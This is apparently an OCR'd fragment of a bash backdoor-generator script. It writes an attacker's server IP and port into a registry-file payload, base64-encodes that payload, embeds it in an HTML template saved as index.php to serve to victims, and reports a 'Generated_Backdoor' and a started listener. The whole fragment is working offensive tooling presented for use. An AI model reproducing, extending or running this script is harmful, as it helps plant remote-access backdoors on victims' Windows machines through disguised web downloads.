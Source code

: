 sed 's+server_ip+'$server_tcp'+g' payload.reg | sed 's+server_port+'$server_port'+g' > $payload_name.reg

if [[ -e $payload_name.reg ]]; then

#zip $payload_name.zip $payload_name.reg > /dev/null 2>&1
IFS=$'\n'
#data_base64=$(base64 -w 0 $payload_name.zip)
#temp64="$( echo "${data_base64}" | sed 's/[\\&*./+!]/\\&/g' )"
data_base64_2=$(base64 -w 0 $payload_name.reg)
temp64_2="$( echo "${data_base64_2}" | sed 's/[\\&*./+!]/\\&/g' )"
sleep 0.1
printf "\e[1;77m{\e[0m\e[1;33m+\e[0m\e[1;77m} Encrypting the reg with base64.........//\e[0m\n" 
sleep 0.2
printf "\e[1;77m{\e[0m\e[1;33m+\e[0m\e[1;77m} Finishing the process!!\e[0m\n"
sleep 0.3
sed 's+url_website+'$url'+g' template.html | sed 's+payload_name+'$payload_name'+g' | sed 's+data_base64+'${temp64_2}'+g ' > index.php
printf "\e[1;91m{\e[0m\e[1;33m+\e[0m\e[1;91m} Generated_Backdoor: {--> %s.reg <--}\e[0m\n" $payload_name
printf "\e[1;91m------------------------------------------------------------|Listener_Started|-----------------------------------------------------------------------\e[0m\n"
sleep 0.1

else
printf "\e[1;93m{-} Error! :((\e[0m\n"
fi

}
banner
dependencies
start



